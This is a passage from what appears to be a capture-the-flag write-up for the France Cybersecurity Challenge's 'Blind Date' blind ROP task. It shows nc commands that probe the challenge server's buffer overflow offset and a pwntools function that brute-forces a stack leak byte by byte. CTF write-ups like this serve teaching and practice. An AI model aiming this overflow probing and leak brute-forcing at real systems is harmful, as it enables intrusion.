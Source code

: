 Since it isn't so long I didn't bother printing everything and run my program 16 times with different `IDX` and got the flag.

## Hardware

...
pwn?
...

## PWN

pwn!

### Blind Date

blind? rop? vasistas?!

This was my first blind rop challenge and I heavlily used this [writeup](https://www.dailysecurity.fr/blind-rop-arm-securevault-writeup/) from the GOAT [Geluchat](https://twitter.com/geluchat?lang=en). The main difference being the architecture (ARM for him, x86_64 for me).

First we need to find how much char we can write until the  program crashes.

```bash
$ nc challenges2.france-cybersecurity-challenge.fr 4008 < <(python3 -c "print('A' * 38)")
Hello you.
What is your name ?
>>> Thanks AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Bye!
$ nc challenges2.france-cybersecurity-challenge.fr 4008 < <(python3 -c "print('A' * 39)")
Hello you.
What is your name ?
>>> Thanks AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
�@Bye!
$ nc challenges2.france-cybersecurity-challenge.fr 4008 < <(python3 -c "print('A' * 40)")
Hello you.
What is your name ?
```

From there we can bruteforce our leak

```python
def  get_leak(leak=""):
  
	while  len(leak) < 8: # we need to bruteforce 8 bytes
		for c in  range(256):
			p = remote("challenges2.france-cybersecurity-challenge.fr", 4008)
  
			buf = "A" * 40 + leak + chr(c)
  
			p.readuntil(b">>> ")
			p.send(buf)
			resp = p.recvall(timeout=0.5)
  
			if  b"Bye"  in resp: # means it didn't crash
				leak += chr(c)
				print("[*] byte : %r" % chr(c)) # looks familiar
				break
  
			p.close()
  
		else:
			raise  ValueError('Failed')
  
	return leak
```
